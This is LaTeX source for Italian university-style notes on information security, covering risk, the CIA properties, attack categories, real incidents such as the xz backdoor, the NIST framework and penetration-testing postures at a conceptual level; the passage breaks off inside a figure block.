\documentclass[12pt, a4paper]{report}

% Pacchetti fondamentali per lingua e codifica
\usepackage[utf8]{inputenc}
\usepackage[italian]{babel}
\usepackage[T1]{fontenc}

% Margini e geometria della pagina
\usepackage{geometry}
\geometry{a4paper, top=2.5cm, bottom=2.5cm, left=2.5cm, right=2.5cm}

% Gestione grafica e Immagini
\usepackage{graphicx}
\graphicspath{{immagini/}}
\usepackage{float} % Necessario per forzare la posizione delle immagini con [H]

% Matematica
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}

% Formattazione del codice e dei comandi
\usepackage{listings}
\usepackage{xcolor}

% --- Personalizzazione Titoli ---
\usepackage{titlesec}

\usepackage{microtype} % Migliora la gestione degli spazi e dei margini
\sloppy % Rende LaTeX meno rigido sull'allineamento a destra, preferendo uno spazio maggiore tra le parole piuttosto che andare oltre il margine.

% Formato: Capitolo X - Titolo (tutto su una riga)
\titleformat{\chapter}[block]
{\normalfont\huge\bfseries}{\chaptername\ \thechapter\ - }{0pt}{\huge}
\titlespacing*{\chapter}{0pt}{-10pt}{20pt}

% Definizione stile del codice
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}{
	backgroundcolor=\color{backcolour},   
	commentstyle=\color{codegreen},
	keywordstyle=\color{magenta},
	numberstyle=\tiny\color{codegray},
	stringstyle=\color{codepurple},
	basicstyle=\ttfamily\footnotesize,
	breakatwhitespace=false,         
	breaklines=true,                 
	captionpos=b,                    
	keepspaces=true,                 
	numbers=left,                    
	numbersep=5pt,                  
	showspaces=false,                
	showstringspaces=false,
	showtabs=false,                  
	tabsize=2
}
\lstset{style=mystyle}

% Link e riferimenti cliccabili
\usepackage{hyperref}
\hypersetup{
	colorlinks=true,
	linkcolor=black,
	filecolor=magenta,      
	urlcolor=cyan,
	pdftitle={Appunti di Sicurezza Informatica},
	pdfpagemode=FullScreen,
}

\begin{document}
	
	\title{\textbf{Appunti di Sicurezza Informatica}}
	\author{Cruciat Elia}
	\date{\today}
	
	\maketitle
	
	\tableofcontents
	\newpage
	
	% --- INIZIO DEI CAPITOLI ---
\chapter{Panoramica}

\section{Il rischio cyber}

Affrontare i problemi di sicurezza informatica è sostanzialmente un esercizio di gestione del rischio (di danni immateriali, perdite economiche o distruzione di risorse).

Si può calcolare il rischio in un arco di tempo noto come:

\begin{equation*}
	RISCHIO = PROBABILIT\text{À} \times IMPATTO
\end{equation*}

Per gestire il rischio dobbiamo dunque:
\begin{itemize}
	\item Valutare le probabilità di ogni evento potenzialmente dannoso
	\item Quantificare l'impatto di ogni possibile azione malevola
\end{itemize}

Per mitigare il rischio si progettano e implementano contromisure (che devono essere convenienti!).

Osserviamo che nell'ambito informatico la stima di impatto e probabilità non sono altrettanto facilmente stimabili quanto lo sono per esempio in caso di assicurazioni auto. I motivi variano dalla quantità e qualità dei dati alla difficoltà di quantificare l'impatto.

Inoltre, c'è da considerare la situazione in cui la probabilità è bassissima ma l'impatto smisurato: in questi casi, il valore effettivo del rischio può passare in secondo piano.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image.png}
\end{figure}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{87cd619d-ebf7-4ce2-af1d-aaad0f4a4c67.png}
\end{figure}

\subsection{Proprietà di Sicurezza e Definizioni}
La sicurezza di un sistema può essere scomposta in tre proprietà chiave, riassunte dalla sigla \textbf{CIA}:

\begin{itemize}
	\item \textbf{Confidentiality (Riservatezza):} Mantenere inaccessibili dati o proprietà di un sistema a chi non è autorizzato.
	\item \textbf{Integrity (Integrità):} Poter garantire che il contenuto e/o l'origine di un dato corrispondano a quanto si ritiene corretto.
	\item \textbf{Availability (Disponibilità):} Poter garantire la possibilità effettiva di accedere a dati e servizi quando necessario.
\end{itemize}

\textbf{Definizioni Fondamentali:}
\begin{itemize}
	\item \textbf{Minaccia (Threat):} Una condizione che potenzialmente può compromettere una o più delle proprietà di sicurezza.
	\item \textbf{Attacco (Attack):} L'azione che porta al concretizzarsi di una minaccia.
	\item \textbf{Vulnerabilità (Vulnerability):} Un errore nell'individuazione della superficie d'attacco o nell'implementazione di un meccanismo, che permette a un attacco di avere successo.
	\item \textbf{Exploit:} Uno strumento (tecnico o umano, es. social engineering) per trarre vantaggio da una vulnerabilità.
\end{itemize}

\textbf{Tipologie di minacce e attacchi:}
\begin{itemize}
	\item \textbf{Disclosure:} Violazione della riservatezza (snooping, eavesdropping).
	\item \textbf{Deception:} Violazione dell'integrità che porta ad accettare dati falsi (modifica, spoofing).
	\item \textbf{Disruption:} Violazione della disponibilità (DoS, distruzione).
	\item \textbf{Usurpation:} Violazione che porta all'uso non autorizzato di un sistema.
\end{itemize}

\noindent\rule{\textwidth}{0.4pt}

\section{Esempi di attacchi}

\subsection{DoS}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 1.png}
\end{figure}

Spesso per effettuare questo genere di attacco si va a violare un gran numero di computer di poco valore e quindi poco difesi, e ci si installa un agent. Ciò permette di usare la forza di calcolo di queste macchine per effettuare l'attacco. In tal caso si parla di \textbf{Distributed DoS} (DDoS).

\subsection{Furti di identità}
Qualcuno ruba le tue informazioni personali (ad esempio il codice fiscale) e lo utilizza senza la tua autorizzazione per creare nuovi account, fare acquisti o commettere altre frodi.

\subsection{Phishing}
Il phishing è la seconda causa più comune di violazione dei dati, e costa alle vittime in media 4,91 milioni di dollari.

E-mail, messaggi di testo, telefonate o siti Web fraudolenti progettati per indurre gli utenti a scaricare malware, condividere informazioni sensibili o dati personali o intraprendere altre azioni che espongono se stessi o le proprie organizzazioni alla criminalità informatica.

NON SAPEVO che fosse falsificabile il mittente di una mail\dots a quanto pare per essere sicuri bisogna guardare gli effettivi header del protocollo (vedi come fare).

\subsection{Ransomware}
Crittografare i dati critici di un utente o di un'organizzazione, impedendo l'accesso ai file, database, o applicazioni. L'aggressore richiede il pagamento di un riscatto per decifrarli.

\subsection{Ransomware as a Service}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 2.png}
\end{figure}

Nel ransomware come servizio, come DarkSide, uno sviluppatore di malware addebita una tariffa utente agli affiliati, che potrebbero non avere le competenze tecniche per creare un ransomware ma sono in grado di penetrare in un sistema informatico della vittima.

\begin{itemize}
	\item Questi servizi includono il supporto tecnico per i cracker, inclusa la negoziazione con le vittime e la conduzione di campagne di pressione su misura.
	\item Le tariffe per gli utenti di DarkSide variavano a seconda dell'impatto: 25\% per riscatti inferiori a 500.000 dollari, con sconti progressivi, fino al 10\% per riscatti superiori a 5 milioni di dollari.
\end{itemize}

\subsection{Crypto-jacking}
Uso non autorizzato dei dispositivi delle persone per estrarre criptovaluta. Funziona incorporando un JavaScript, ogni visitatore esegue solo una piccola parte di mining, ma il totale del tempo di calcolo raccolto può generare vero valore.

\subsection{Supply chain}
Così come un'azienda che si avvale di fornitori richiede certificazioni di qualità, al giorno d'oggi abbiamo anche certificazioni di sicurezza. Questo perché esiste questa categoria di attacchi, che aggredisce un bersaglio intermedio, che fornisce HW o SW alle vittime finali.

\subsection{Alla vecchia maniera}
Il furto o la distruzione di un dispositivo fisico resta uno strumento valido anche nel mondo digitale e iperconnesso.

\section{Esempi di incidenti}

\subsection{Guerra cyber}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 3.png}
\end{figure}

Evidente la complessità sia informatica che a livello di operations. Il cyberspazio è ormai considerato il \textbf{``quinto dominio''} delle operazioni militari, accanto a terra, mare, aria e spazio. Un esempio storico da esame è \textbf{Stuxnet}, un malware progettato specificamente per sabotare fisicamente le centrifughe nucleari in Iran, falsificando l'output dei sensori per ingannare i sistemi di monitoraggio.

\subsection{Open source social eng.}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 4.png}
\end{figure}

Un caso emblematico è la \textbf{backdoor nella libreria xz/liblzma (CVE-2024-3094)}, inserita a marzo 2024. Si tratta di una libreria di algoritmi di compressione largamente utilizzata in ambiente Linux (la backdoor introduceva un potenziale RCE).

L'aspetto notevole è che l'attacco è stato condotto tramite Ingegneria Sociale applicata al processo di sviluppo open source: l'attaccante (sotto lo pseudonimo ``Jia Tan'') ha speso oltre due anni (2021-2024) per guadagnare la fiducia del maintainer originale del progetto. Utilizzando falsi account per fare pressioni psicologiche ed evidenziare ritardi nello sviluppo, ha ottenuto il controllo della libreria per iniettare il codice malevolo.

\section{Difesa}

\subsection{Un processo continuo}
Sicurezza non è valutare la situazione presente e comprare un \textbf{prodotto}, bensì definire un \textbf{processo} per tenere traccia delle continue evoluzioni dei rischi e dell'efficacia delle contromisure.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 5.png}
\end{figure}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 6.png}
\end{figure}

La messa in sicurezza deve essere un processo metodico.

\begin{itemize}
	\item I \textit{framework} e le \textit{metodologie} possono aiutare nella sistematizzazione.
	\item Le \textit{certificazioni} possono dare evidenza, fornita da una terza parte disinteressata, che misure efficaci siano state adottate da una controparte.
	\item La sicurezza della supply chain è diventata un elemento cruciale.
\end{itemize}

\section{Politiche e meccanismi}
Una politica di sicurezza (security policy) è la dichiarazione di ciò che è consentito o proibito fare. In altre parole, dichiara il fine della sicurezza.

Un meccanismo di sicurezza (security mechanism) è un metodo, uno strumento o una procedura per far rispettare una politica di sicurezza.

Secondo il \textbf{Cyber Security Framework (NIST)}, le fasi metodiche per la gestione della sicurezza sono 5:

\begin{enumerate}
	\item \textbf{Identify:} Gestione degli asset e analisi dei rischi.
	\item \textbf{Protect:} Prevenzione (l'attacco deve fallire).
	\item \textbf{Detect:} Rilevazione (l'attacco potrebbe avere successo ma deve essere notato e riportato).
	\item \textbf{Respond:} Reazione (l'attacco rilevato viene mitigato per ridurne la gravità o l'estensione).
	\item \textbf{Recover:} Ripristino (le conseguenze vengono ridotte o azzerate, ripristinando le proprietà violate).
\end{enumerate}

\section{Superficie di attacco}
La superficie di attacco è l'insieme di tutti i modi accessibili ad un attaccante per stimolare un'interazione. Tali vettori possono essere realizzati mediante diversi canali:

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 7.png}
\end{figure}

\subsection{Prevenzione - Security Engineering}
Prima sfida: non trascurare nemmeno un dettaglio.

\begin{itemize}
	\item Inventario di tutti i componenti fisici
	\item Catalogo di tutti i servizi
\end{itemize}

La raccolta dei requisiti deve essere focalizzata sul ``non deve accadere'' invece che sul ``deve funzionare''. Andiamo quindi a studiare:

\begin{itemize}
	\item I \textit{misuse case} per verificare se una minaccia si può concretizzare in un attacco
	\item I \textit{security use case} per distillare i requisiti dei meccanismi da applicare
	\item I possibili \textit{attack tree} per modellare come si combinano diversi possibili eventi e condizioni
\end{itemize}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 8.png}
\end{figure}

\subsection{Security Engineering – migliori pratiche}
\begin{enumerate}
	\item Basare le decisioni della sicurezza su una esplicita politica
	\begin{enumerate}
		\item Identity
		\item Access control
		\item Content-specific
		\item Network and infrastructure
		\item Regulatory
		\item Advisor and information
	\end{enumerate}
	\item Evitare un singolo punto di fallimento (defense in depth)
	\item Fallire in modo certo
	\item Bilanciare sicurezza e usabilità
	\item Essere consapevoli dell'esistenza dell'ingegneria sociale
	\item Usare ridondanza e diversità riduce i rischi
	\item Validare tutti gli input
	\item Dividere in compartimenti i beni
	\item Progettare per il deployment
	\item Progettare per il ripristino
\end{enumerate}

\subsection{Testing}
Fondamentale per verificare se sono sfuggite vulnerabilità o se il sistema è esposto a rischi nuovi rispetto al momento della progettazione.

I test si dividono in tre livelli di approfondimento:

\begin{enumerate}
	\item \textbf{Vulnerability Assessment:} Identificazione e classificazione metodica delle vulnerabilità.
	\item \textbf{Penetration Testing:} Simulazione attiva dell'attacco per verificare se e come una vulnerabilità può essere sfruttata.
	\item \textbf{Red Team Operations:} Simulazione su larga scala e senza preavviso (o con preavviso limitato) mirata non solo a penetrare i sistemi, ma a testare le capacità di rilevamento e risposta dell'organizzazione (il Blue Team).
\end{enumerate}

Importante problema concettuale: non si può dimostrare l'assenza di problemi, si può solo tentare di sollecitare il sistema nel modo più completo possibile per trovare eventuali problemi esistenti. Si parla in questo contesto di \textbf{copertura}.

\subsection{Quando testare?}
Spesso il testing viene fatto subito prima del deploy, ma ciò può causare problemi dato che la risoluzione di una vulnerabilità potrebbe necessariamente comportare modifiche a livello molto basso, che implica una grande quantità di tempo e lavoro per adattare tutto il resto a tale scelta.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 9.png}
\end{figure}

Per questo al giorno d'oggi si preferisce lo Shift Left Testing, che consiste in testare ogni pezzo di codice, ogni build, ogni deploy.

\chapter{Principi dell'Offensive Security}

\section{Il ciclo di vita della vulnerabilità}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 10.png}
\end{figure}

Una \textbf{vulnerabilità zero-day} è una vulnerabilità sconosciuta a chi dovrebbe mitigarla. La \textbf{finestra di opportunità} è il periodo che va dal rilascio del primo exploit fino all'applicazione della patch. Un \textbf{attacco zero-day} è un attacco che avviene durante questa finestra.

Gli attacchi si intensificano \textit{dopo} la finestra, perché tutti vengono a conoscenza della vulnerabilità: tipicamente le scansioni massive partono entro 15 minuti dalla pubblicazione della CVE. Nel 2005 la durata media della finestra era di 54 giorni; nel 2014 era cresciuta a quasi 12 mesi.

\textbf{Esempio di tempi di reazione (``Uno bravo''):} \\
Un caso di studio rilevante riguarda la vulnerabilità critica \textbf{CVE-2024-4367 in Firefox}. Il lettore PDF integrato (scritto in JavaScript) permetteva l'esecuzione arbitraria di JS mascherato da file PDF.
La \textit{timeline} di reazione è stata eccellente: vulnerabilità segnalata a Mozilla il 26 Aprile, patch della libreria (PDF.js) rilasciata il 29 Aprile, e nuova versione del browser (Firefox 126) patchata rilasciata il 14 Maggio, riducendo drasticamente la finestra di opportunità.

\section{Responsible disclosure}

La comunità pubblica le vulnerabilità scoperte secondo un principio di \textit{responsible disclosure}: la vulnerabilità viene prima comunicata nel dettaglio all'ente interessato, che ha un certo periodo di tempo per correggerla; solo dopo viene resa nota al pubblico. Esistono database pubblici (CVE, NVD, exploit-db\dots) e iniziative attive di ricerca come il Google Project Zero o i programmi di bug bounty.

\section{Cos'è l'offensive security}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 11.png}
\end{figure}

L'offensive security consiste nel porsi nel ruolo dell'attaccante per verificare l'esistenza di vulnerabilità, stimare l'impatto degli attacchi e testare l'efficacia delle contromisure. Il processo di attacco viene modellato attraverso la \textbf{kill chain}, e descritto concretamente con il framework \textbf{MITRE ATT\&CK}.

\begin{quote}
	\textbf{Attenzione:} usare queste tecniche su sistemi non propri senza un esplicito permesso è illegale. ``Permesso'' va definito in modo formale e rigoroso: un contratto chiaro è circa il 30\% del lavoro di un pen tester professionista.
\end{quote}

\section{Vulnerability Assessment vs Penetration Testing}

Un \textbf{VA} (Vulnerability Assessment) individua le vulnerabilità note ma non va oltre: non le sfrutta, non considera la specificità del sistema e può produrre falsi positivi (es. un servizio che dichiara una versione vulnerabile ma è già stato patchato).

Un \textbf{PT} (Penetration Test) prevede invece che il tester umano avanzi quanto più possibile sfruttando le vulnerabilità tramite exploit. È più realistico e produce un report più dettagliato, ma è anche rischioso e va gestito con cautela.

\section{PT – punti di partenza}

Prima di un penetration test si definiscono le regole di ingaggio: si mappano e prioritizzano i target, si stabiliscono i confini dell'attività.

Si definisce quindi la \textbf{postura}, ovvero il grado di conoscenza reciproca tra attaccante e difensore (Target's knowledge vs Attacker's knowledge). Le configurazioni classiche sono:

\begin{itemize}
	\item \textbf{Blind:} L'attaccante non ha informazioni, il difensore sa del test.
	\item \textbf{Double Blind:} Nessuno sa nulla (l'attaccante è alla cieca, il difensore non è avvisato). È la simulazione più realistica per testare le capacità di rilevamento.
	\item \textbf{Grey Box / Double Grey Box:} Conoscenza parziale da una o da entrambe le parti.
	\item \textbf{Tandem:} Tester e difensori operano a stretto contatto condividendo tutte le informazioni.
	\item \textbf{Reversal:} L'attaccante ha conoscenza completa del bersaglio, ma il difensore non è avvisato dell'attacco.
\end{itemize}

\textit{Nota operativa:} Un attacco cieco (Double Blind) può sembrare la simulazione più realistica, ma fa perdere molto tempo al tester per superare ostacoli perimetrali banali. Per l'efficienza della ricerca delle vulnerabilità applicative profonde, spesso è meglio un approccio \textit{Tandem} o \textit{Grey Box}.

Dove possibile si lavora su una replica del sistema bersaglio per evitare danni, ma per sistemi eccessivamente complessi o critici a volte si opera direttamente sul sistema reale.

\begin{figure}[H]
	\centering
